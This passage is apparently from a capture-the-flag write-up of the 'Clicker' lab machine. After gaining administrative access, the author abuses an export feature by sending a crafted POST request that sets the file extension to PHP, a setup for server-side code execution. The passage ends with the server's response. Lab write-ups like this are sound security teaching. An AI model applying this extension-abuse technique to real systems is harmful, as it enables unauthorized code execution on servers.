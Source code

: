 Then we needed to log out and back in and the administration page would be visible

![Adminstrative access](/assets/img/Clicker/Clicker_04.png)

### Adminstrative access

When opening the administrative page we noticed there was a export functionality that looked very odd. The request allowed us to chose the extension. i decided to try exporting all the data using a PHP extension with the following request.

```
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_xbv0g6zl.txt
Cookie: PHPSESSID=t7nav29pjbsd0omvf7edup7bac
Upgrade-Insecure-Requests: 1

threshold=1000000&extension=php
```

The server then accepted our request and would send the following response telling us our data is saved in **exports/top_players_1hnxigl2.**
